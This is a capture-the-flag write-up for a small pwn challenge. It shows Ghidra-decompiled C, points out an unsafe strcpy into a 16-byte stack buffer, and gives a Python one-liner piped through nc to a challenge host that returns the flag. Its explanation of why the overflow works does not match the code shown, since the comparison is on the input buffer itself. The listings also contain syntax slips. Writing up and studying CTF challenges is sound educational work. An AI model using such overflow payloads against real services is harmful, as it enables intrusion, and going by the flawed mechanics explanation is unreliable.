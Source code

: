 1. Analyse the file with Ghidra. main() shows this:
```int main(void) {
        long in_FS_OFFSET;
        char local_28[24];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        puts("Welcome to Amogus.\n");
        display();
        puts("Enter your name:\n");

        __isoc99_scanf("%s", local_28);
        gameplay(local_28);

        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                __stack_chk_fail();  // Stack canary check
        }

        return 0;
}```

gameplay() shows this:
```void gameplay(char *param_1) {
        int iVar1;
        FILE *_stream;
        long in_FS_OFFSET;
        char local_68[16];
        char local_58[16];
        char local_48[64];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        __builtin_strncpy(local_68, "DEAD", 5);
        strcpy(local_58, param_1);
        iVar1 = strcmp(local_58, "ALIVE");

        if (iVar1 == 0) {
                _stream = fopen("flag.txt", "r");

                if (_stream == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n"));
                } else {
                fgets(local_48, 0x2d, _stream);
                puts("How are you still alive?!\n");
                puts(local_48);
                }
        } else {
                iVar1 = strcmp(local_58, "DEAD");

                if (iVar1 != 0) {
                puts("ERROR. ERROR. AMONG US NOT RESPONDING.");
                exit(0);
        }

        puts("You are a crewmate. \n");
        FUN_00401160(1);
        puts("You go to Medbay to finish your tasks.\n");
        FUN_00401160(1);
        puts("Suddenly, you hear a gunshot... The world goes dark. \n");
        FUN_00401160(1);
        puts("GAME OVER. YOU LOST :("));
    }

    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }

    return;
}```

2. Looking at the decompiled code, I noticed this suspicious line:
   ```
   strcpy(local_58, param_1);  
   ```
   `strcpy()` copies user input without any size validation into a 16-byte buffer (`local_58`). This is a classic **buffer overflow** vulnerability.

3. Then, we look at the stack layout to determine where we should overflow into:
```
char local_68[16];  // Initially contains "DEAD"
char local_58[16];  // Your input buffer
char local_48[64];  // Flag storage (unused in the exploit)
```

4. Since the simple approach failed and I saw the unsafe `strcpy()`, I thought about overflowing `local_58` to corrupt adjacent memory. Looking at the stack layout:
   ```
   char local_68[16];  // "DEAD" gets stored here
   char local_58[16];  // Our input buffer
   char local_48[64];  // Flag storage
   ```

5. Since local_58 is right before local_68, I could fill up the entire 16-byte local_58 with random characters, and then overflow "ALIVE\x00" into local_68. If `local_68` (which normally contains "DEAD") gets overwritten with "ALIVE", it might affect the string comparison and trigger the flag condition.

6.Use 16 bytes of "A" to fill up local_58, and include "ALIVE":

```└─$ python -c 'print("A"*16 + "ALIVE\x00")' | nc 43.205.113.100 8292
    Welcome to Amogus.

    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⢀⣀⣤⣤⣤⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⠟⠉⠉⠉⠉⠉⠉⠉⠙⠻⢶⣄⠀⠀⠀⠀   
            ⣾⡏⠀⠀⠀⠀⠀⠀     ⠙⣷⡀⠀    
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣸⡟⠀⣠⣶⠛⠛⠛⠛⠛⠛⠳⣦⡀⠀⠘⣿⡄    
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⢠⣿⠁⠀⢹⣿⣦⣀⣀⣀⣀⣀⣠⣼⡇⠀⠀⠸⣷⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⡏⠀⠀⠀⠉⠛⠿⠿⠿⠿⠛⠋⠁⠀⠀⠀⠀⣿    
            ⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⠀  ⢻⡇⠀  
            ⣸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀   ⢸⡇   
    ⠀⠀⠀⠀⠀⠀⠀ ⣿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣧⠀  
    ⠀⠀⠀⠀⠀⠀⠀ ⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣾⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀  ⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⣠⡶⠶⠿⠿⠿⠿⢷⣦⠀⠀⠀⠀⠀  ⣿⠀  
    ⠀⠀⣀⣀⣀⠀⣸⡇⠀⠀⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀ ⣿⠀ 
    ⣠⡿⠛⠛⠛⠛⠻⠀⠀⠀⠀⠀⢸⣇⠀⠀⠀⠀⠀⠀⣿⠇⠀⠀⠀⠀⠀ ⠀⣿⠀ 
    ⢻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⡟⠀⠀⢀⣤⣤⣴⣿⠀⠀⠀⠀⠀⠀  ⣿⠀ 
    ⠈⠙⢷⣶⣦⣤⣤⣤⣴⣶⣾⠿⠛⠁⢀⣶⡟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡟⠀  
                ⣿⣆⡀⠀⠀⠀⠀⠀⢀⣠⣴⡾⠃    
                ⠀⠀⠈⠛⠻⢿⣿⣾⣿⡿⠿⠟⠋⠁⠀⠀   
    Enter your name:

    How are you still alive?!

    shaktictf{ch@ng3d_fat3_wh3n_I_s@w_r3dv3nt}```
